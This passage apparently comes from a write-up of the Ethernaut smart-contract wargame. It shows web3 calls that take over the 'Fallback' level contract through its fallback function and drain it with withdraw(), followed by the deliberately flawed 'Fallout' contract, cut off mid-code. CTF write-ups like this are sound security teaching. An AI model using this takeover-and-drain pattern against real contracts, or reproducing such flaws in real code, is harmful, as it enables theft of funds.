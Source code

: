 > #### Solution: 
> A flaw in this contract is that, it's fallback function is directly assigning the owner with weak  authentication. 
>  - In order to become the owner we need to make a contribution to the contract by calling the `contribute()` function to pass the checks in the fallback function.
> 
>  - Then we have to call the fallback function to become the owner of the contract.
>  - We can then simply call the `withdraw()` function to withdraw all the funds of the contract, which eventually reduces the contract's balance to 0.
> 
> ```solidity
> //to make a contribution
> await web3.eth.sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.0001"),
>     data: web3.eth.abi.encodeFunctionSignature("contribute()")
> });
> 
> //calling fallback function
> await web3.eth.sendTransaction({
>     from: player,
>     to: instance,
>     value: web3.utils.toWei("0.0001")
> });
> 
> //calling withdraw function
> await contract.withdraw();
> ```

<hr>

## 2 Fallout
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
```